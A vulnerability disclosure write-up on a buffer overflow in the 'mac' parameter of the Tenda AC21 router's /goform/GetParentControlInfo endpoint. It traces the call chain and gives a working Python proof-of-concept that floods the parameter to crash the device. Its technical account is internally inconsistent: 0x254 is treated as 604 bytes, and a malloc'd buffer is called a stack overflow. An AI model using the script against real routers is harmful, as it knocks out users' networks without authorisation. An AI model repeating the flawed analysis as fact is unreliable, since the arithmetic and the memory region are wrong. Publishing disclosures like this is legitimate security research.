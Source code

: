 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC21（AC21V1.0re_V16.03.08.16）
## Overview
There is a stack-based buffer overflow vulnerability in the Tenda Wi-Fi 5 Router AC21 device running the firmware version AC21V1.0re_V16.03.08.16. Due to the lack of restrictions on certain parameters in the GetParentControlInfo function and the absence of boundary checks, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint: `/goform/GetParentControlInfo`、`sub_433BE4`、`formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)
+ **Affected Product**: Tenda Wi-Fi 5 Router AC21 device
+ **Affected Version**: AC21V1.0re_V16.03.08.16
+ **Attack Vector**: Exploit functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow
+ **Impact**:
    - Denial of Service (Dos)
+ **Affected Component**: /goform/GetParentControlInfo, sub_433BE4, formDefineTendDa
+ **CVE ID**: Pending (CVE application in progress)
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)
+ **Firmware**: [https://www.tenda.com.cn/material/show/3742](https://www.tenda.com.cn/material/show/3742)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin). The following call chain exists in the squashfs-root/bin/httpd file:  
main → sub_433BE4 → formDefineTendDa → GetParentControlInfo

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/main%E8%B0%83%E7%94%A8.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/formDefineTenda1.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/formDefineTenda2.png)

s is a buffer allocated via malloc(0x254u), with a size of 0x254 bytes and initialized to all 0s. The target address is s + 2, meaning data copying starts from the 3rd byte of s, and the remaining available space is 604 - 2 = 602 bytes. Var is the external input obtained via websGetVar(a1, "mac", &unk_4D999C) (it is the value of the user-controllable "mac" parameter). strcpy will continuously copy characters from Var until encountering \0, without verifying at all whether the target buffer can accommodate all the data. As external input, the length of Var may exceed 602 bytes.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Therefore, carefully designing a payload at the interface path /goform/GetParentControlInfo can cause a buffer overflow.

## Steps to Reproduce
Construct the following payload using python:

```python
import requests

# Construct overflow payload
def create_payload():
    buffer_size = 512000
    payload = b"A" * buffer_size
    v11_value = b"\xef\xbe\xad\xde"
    payload += v11_value
    return payload

# Construct and send HTTP request
def send_payload(url, payload):
    params = {'mac': payload}
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    response = requests.get(url, params=params)
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    # Target URL
    url = "http://192.168.190.239/goform/GetParentControlInfo"
    # Create malicious payload
    payload = create_payload()
    # Send malicious request
    send_payload(url, payload)
```

Use qemu to emulate the httpd extracted from US_AC21V1.0re_V16.03.08.16_cn_TDC01.bin (note that this file is for the mips little-endian architecture, and IDA needs to be used to modify httpd to adapt to the emulation environment).

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/patch.png)

As shown in the figure below, the emulation is successful.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/payload%24%E4%BB%BF%E7%9C%9F.png)

Use this script to trigger the stack overflow.

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC21/image/%E8%A7%A6%E5%8F%91.png)

#### Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack through the parameters in this endpoint. 
